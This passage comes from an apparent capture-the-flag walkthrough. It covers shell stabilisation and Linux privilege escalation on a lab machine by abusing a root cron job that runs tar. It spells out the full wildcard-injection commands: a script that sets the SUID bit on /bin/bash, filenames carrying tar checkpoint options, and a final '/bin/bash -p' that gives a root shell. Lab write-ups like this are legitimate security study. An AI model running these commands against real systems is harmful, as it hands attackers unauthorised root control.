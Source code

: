 


Once the shell connection is established, we need to stabilize our shell in order to have a better experience, let's use our [[CYBERSECURITY/Commands/Shell Tricks/STABLE SHELL.md|note]]:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241121143025.png)

Nice, now we have a stable shell, let's begin with our privilege escalation



# PRIVILEGE ESCALATION
---

## `/etc/crontab`

If we use `cat /etc/crontab` we find this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241121143321.png)

User `root` is running a script inside of `milesdyson` home called `backup.sh` let's check if we are able to write in it:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241121143414.png)

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241121143635.png)

We are able to write in it, so, we need to put the following in order to get a higher privileged shell:

```ad-hint

We need to run this commands inside of `/var/www/html`

1. printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
2. echo "" > "--checkpoint-action=exec=sh shell.sh"
3. echo "" >> --checkpoint=1

The process we followed is a `wildcard injection`, we are taking advantage of the script, which uses tar and we inject a shell that gets executed once the script runs once again.


After a minute, we will be able to execute `/bin/bash -p` and get a root shell:

#### Output
---

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241121144618.png)
![](gitbook/cybersecurity/images/Pasted%252520image%25252020241121144743.png)



```

And that's all for this CTF.

